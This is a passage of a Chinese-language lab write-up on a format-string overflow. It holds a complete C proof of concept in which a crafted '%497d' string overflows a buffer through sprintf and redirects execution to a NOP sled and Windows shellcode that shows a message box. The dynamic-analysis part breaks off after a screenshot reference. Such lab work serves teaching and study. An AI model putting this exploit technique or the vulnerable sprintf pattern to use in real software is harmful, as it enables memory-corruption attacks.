 ### (三) FormatString_overflow

#### 1. 静态分析

```c++
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <windows.h>

char user[]=
     "%497d\x39\x4a\x42\x00"
     "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
     "\x33\xDB\x53\x68\x62\x75\x70\x74\x68\x62\x75\x70\x74\x8B\xC4\x53"
     "\x50\x50\x53\xB8\x68\x3D\xE2\x77\xFF\xD0\x90\x90\x90\x90\x90\x90"
     "\xB8\xBB\xB0\xE7\x77\xFF\xD0\x90\x90\x90\x90";

void mem(){
	//__asm int 3
	char outbuf[512];
	char buffer[512];
	sprintf(
		buffer,
	    "ERR Wrong command: %.400s",
	    user
		);
	/*
	执行完上一步后buffer[]="ERR Wrong command: %497d\x39\x4a\x42\x00"
	00424a39为shellcode地址；此处仅仅就是一串<nop>而已
	*/
    sprintf(outbuf,buffer);//sprintf(outbuf,"ERR Wrong command: %497d\x39\x4a\x42\x00");
}

int main()
{
     LoadLibrary("user32.dll");
     mem();
	 return 0;
}
```

user为shellcode数组，其内容在2中分析，mem函数将user格式化到字符串ERR Wrong command: %.400s中变为ERR Wrong command: %497d\x39\x4a\x42\x00，再从栈中取497位整型数，格式化到buffer中存入outbuf。

#### 2. 动态分析

编译调试，进入mem函数。

![image-20221201165242973](2022-12-1-%E6%A0%BC%E5%BC%8F%E5%8C%96%E8%BE%93%E5%87%BA%E5%AE%9E%E9%AA%8C/image-20221201165242973.png)
